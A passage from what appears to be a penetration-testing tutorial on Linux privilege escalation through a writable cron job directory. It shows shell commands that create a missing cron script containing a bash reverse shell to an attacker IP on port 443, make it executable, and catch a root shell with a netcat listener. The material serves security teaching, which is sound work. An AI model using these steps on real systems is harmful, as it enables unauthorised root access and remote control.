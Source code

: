 To confirm this, we can use the following command:

```shell
ls -l /opt | grep "scripts"
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-398.png)

Great! This confirms that our current user does have write permissions in the **/opt/scripts** directory!

This means that we should be able to copy (backup) the current script, and then replace it with something malicious.

However, when we check for the script, we cannot find it…

```shell
ls -l /opt/scripts
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-400.png)

I guess that means we won’t be able to exploit this cron job since the script doesn’t exist?!

Actually – not true at all! We definitely still can exploit this cron job!

Since we have write permissions in the **/opt/scripts** directory, we can just create the script ourselves.

## Setting up the Exploit and Getting a Root Shell

For this example, we will create a reverse shell payload and name the script **backup.sh**.

```shell
echo '#!/bin/bash' > /opt/scripts/backup.sh
echo "" >> /opt/scripts/backup.sh
echo 'bash -i >& /dev/tcp/172.16.1.30/443 0>&1' >> /opt/scripts/backup.sh
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-401.png)

After the script is created, we need to give it execute permissions.

```shell
chmod 755 /opt/scripts/backup.sh
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-402.png)

Finally, we need to go back to our attacker machine and start a netcat listener on port 443. Then after less than a minute, our root shell should check in.

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-403.png)

# Exploiting Cron Jobs – tar Wildcard Injection
